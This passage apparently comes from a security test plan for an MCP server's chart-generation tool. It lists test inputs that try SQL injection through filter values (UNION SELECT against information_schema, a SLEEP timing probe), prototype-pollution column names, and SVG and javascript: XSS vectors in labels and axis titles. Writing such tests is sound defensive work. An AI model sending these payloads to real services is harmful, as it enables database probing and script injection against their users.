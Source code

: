 ### 3. Filter Chain Exploitation
```json
# Test Case: Chained filters to bypass validation
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [{"name": "product"}],
      "filters": [
        {"column": "id", "op": "=", "value": "1"},
        {"column": "id", "op": "!=", "value": "1 UNION SELECT * FROM information_schema.tables"},
        {"column": "name", "op": "=", "value": "test' AND SLEEP(5) AND 'x'='x"}
      ]
    }
  }
}
```

## Advanced XSS Vectors

### 1. DOM Clobbering
```json
# Test Case: DOM property override attempts
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [
        {"name": "toString", "label": "Override toString"},
        {"name": "constructor", "label": "Override constructor"},
        {"name": "__proto__", "label": "Prototype pollution"}
      ]
    }
  }
}
```

### 2. SVG-based XSS
```json
# Test Case: SVG injection vectors
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "xy",
      "x": {"name": "date"},
      "y": [{
        "name": "sales",
        "aggregate": "SUM",
        "label": "<svg><foreignObject><iframe src='javascript:alert(1)'></iframe></foreignObject></svg>"
      }],
      "x_axis": {
        "title": "<svg><animate attributeName='href' values='javascript:alert(1)'/></svg>"
      }
    }
  }
}
```
